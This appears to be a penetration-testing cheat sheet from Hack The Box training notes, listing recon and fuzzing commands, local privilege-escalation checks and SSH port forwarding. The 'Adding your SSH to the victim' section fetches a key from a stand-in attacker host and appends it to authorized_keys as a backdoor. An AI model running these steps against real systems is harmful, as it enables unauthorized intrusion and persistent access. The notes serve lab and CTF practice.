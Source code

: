 # Initial Recon

### nmap

1. `nmap -sSV -Pn -p- -A <target>`
2. `nmap -sU -v <target> --min-rate=50`

### Sub-domain Enum

1. `ffuf -w SecLists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/' -H 'HOST: FUZZ.website.com' -fs 2309`
3. `python3 sublist3r -d <domain>`

### Sub-Directoy Enum

1. `ffuf -w SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://<SERVER_IP>:<PORT>/FUZZ" -recursion -recursion-depth 1 -e .php`
2. `gobuster dir -x php,txt -u 10.129.255.70 -w /usr/share/wordlists/dirb/common.txt`

### Parameter Fuzzing

1. `ffuf -w SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287`
2. `ffuf -w SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://<SERVER_IP>:<PORT>/admin/admin.php -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx`

### Page Type Fuzzing

1. `ffuf -w SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u "http://<SERVER_IP>:<PORT>/indexFUZZ"`


# Web Attacks

SQL Injection
- [sqlmap](https://github.com/jinhaochan/HTB/tree/master/Academy/SQLmap)
- [sql injection](https://github.com/jinhaochan/HTB/tree/master/Academy/SQL%20Injection)
- [file inclusion](https://github.com/jinhaochan/HTB/tree/master/Academy/File_Inclusion)


Proxy chains
---
```
edit /etc/proxychains4.conf 

examples:
http <ip> <port>
socks5 <victim service> <victim port> <user> <password>

$ proxychains ssh user@<ip>
```

Other web stuff
---
- Check SSL cert
- Check email domains
- Check 404 pages
- Try both `/tmp` and `/dev/shm` for file writes

# Local Attacks

1. Check what groups you are in
    - `id` 
2. Find all binaries that this group can run
    - `find / -group <group> -type f 2>/dev/null`
3. Shows all command this user can run as sudo
    - `sudo -l`
    - Check for configs that are preserved with `env_keep` which can be used to preload custom files
4. find all binaries with sticky bit set
    - `find / -perm -u=s -type f 2>/dev/null`
5. Find all listening services
    - `ss -tuan | grep LISTEN`
    - Use SSH portforwarding to forward the service to your machine
6. Check for local services
    - `nc -zv 127.0.0.1 1-65535 2>&1 | grep -v "refused"`
7. Gets capabilities of binaries
    - `getcap -r / 2>/dev/null`
    - https://gtfobins.github.io/#+capabilities
8. Check configuration files
    - `/etc/mysql/my.cnf`
    - `/etc/apache2/apache2.conf`
    - `/etc/apache2/sites-enabled/000-default.conf`
    - `etc/nginx/sites-available/default.conf`
    - `etc/nginx/nginx.conf`
9. Check mail
    - `/var/mail`
    - `/var/spool/mail`
10. Check interesting folders
    - `/opt` 
11. Check for most recently modified files
12. If in group `adm`, check `/var/logs/audit`
    - `aureport --help`
13. Run pspy64 to check running process (likely cron)
    - https://github.com/DominicBreuker/pspy
14. Check the mounts `/dev/sda*`
15. Check binaries being used that do not use absolute path `ltrace <binary> 2> out`
16. Check Processes running in /proc
```
for val in range(1,1000):
    try:
        with open("/proc/"+str(val)+"/cmdline", 'r') as f:
            lines = f.readlines()
            print(lines)
    except:
        pass
```

### SSH port forwarding

append your pub key to `/home/user/.ssh/authorized_keys`

On your attacker machine:

`ssh -L <local port>:<victim service>:<victim port> <victim>@<ip>`

OR using dynamic forwarding for attacks

`ssh -D <local port> <victim>@<ip>`


### Adding your SSH to the victim

Append your public to the victim's ~/.ssh/authorized_keys

```
On attacker:
ssh-keygen

On victim:
wget http://attacker/id_rsa.pub
cat id_rsa.pub >> ~/.ssh/authorized_keys
```

### Getting Crash Data

While program is running, kill it with

```
kill -BUS <pid>

Get the data from the crash log
---
apport-unpack /var/crash/_opt_count.1000.crash /tmp/crashed
strings /tmp/crashed/CoreDump
```

